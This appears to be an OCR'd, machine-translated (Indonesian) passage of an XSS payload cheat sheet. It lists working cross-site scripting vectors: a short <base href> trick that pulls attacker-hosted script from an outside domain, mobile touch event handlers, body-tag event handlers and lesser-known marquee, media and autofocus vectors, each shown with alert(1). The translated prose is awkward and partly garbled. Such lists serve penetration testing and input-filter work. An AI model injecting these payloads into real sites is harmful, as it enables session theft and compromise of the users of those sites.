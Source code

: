 > Shortest XSS

Gunakan ketika Anda memiliki slot terbatas untuk injeksi. Membutuhkan naskah asli (ada dalam sumber

kode sudah) dipanggil dengan jalur relatif ditempatkan setelah tempat injeksi. Server penyerang

harus membalas dengan skrip serang ke permintaan persis yang dilakukan oleh skrip asli (jalur yang sama) atau

dalam halaman 404 default (lebih mudah). Domain yang lebih pendek, semakin baik.

       <base href=//knoxss.me>

> Mobile-only Event Handlers

Gunakan saat menargetkan aplikasi seluler.

       <html ontouchstart=alert(1)>
    
       <html ontouchend=alert(1)>
    
       <html ontouchmove=alert(1)>
    
       <body onorientationchange=alert(1)>

> Body Tag

Kumpulan vektor tubuh. Yang terakhir hanya berfungsi untuk browser Microsoft.

       <body onload=alert(1)>
    
       <body onpageshow=alert(1)>
    
       <body onfocus=alert(1)>
    
       <body onhashchange=alert(1)><a href=%23x>click this!#x
    
       <body style=overflow:auto;height:1000px onscroll=alert(1) id=x>#x
    
       <body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br>
    
       <br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
    
       <br><x id=x>#x
    
       <body onresize=alert(1)>press F12!
    
       <body onhelp=alert(1)>press F1!

> Less Known XSS Vectors

Kumpulan vektor XSS yang kurang dikenal.

       <marquee onstart=alert(1)>
    
       <marquee loop=1 width=0 onfinish=alert(1)>
    
       <audio src onloadstart=alert(1)>
    
       <video onloadstart=alert(1)><source>
    
       <input autofocus onblur=alert(1)>
    
       <keygen autofocus onfocus=alert(1)>
    